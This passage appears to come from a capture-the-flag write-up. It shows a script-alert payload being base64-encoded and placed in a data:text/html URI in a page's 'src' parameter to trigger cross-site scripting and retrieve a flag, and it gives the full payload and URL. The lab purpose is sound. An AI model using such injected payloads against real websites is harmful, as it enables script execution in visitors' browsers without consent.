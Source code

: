 `<script>alert('sinkosi@itagain');</script>`

this returned the base64 string:

`PHNjcmlwdD5hbGVydCgnc2lua29zaUBpdGFnYWluJyk7PC9zY3JpcHQ+`

The next step was to make it run in the URL by changing src=nsa to the string:

`data:text/html;base64,PHNjcmlwdD5hbGVydCgnc2lua

29zaUBpdGFnYWluJyk7PC9zY3JpcHQ+`

The full URL is:

`http://<ip-address>:80/index.php?page=media\&src=data:text/html;

base64,PHNjcmlwdD5hbGVydCgnc2lua29zaUBpdGFnYWluJyk7PC9zY3JpcHQ+`

on reload of the page, the flag was retrieved


\subsection{Tools}


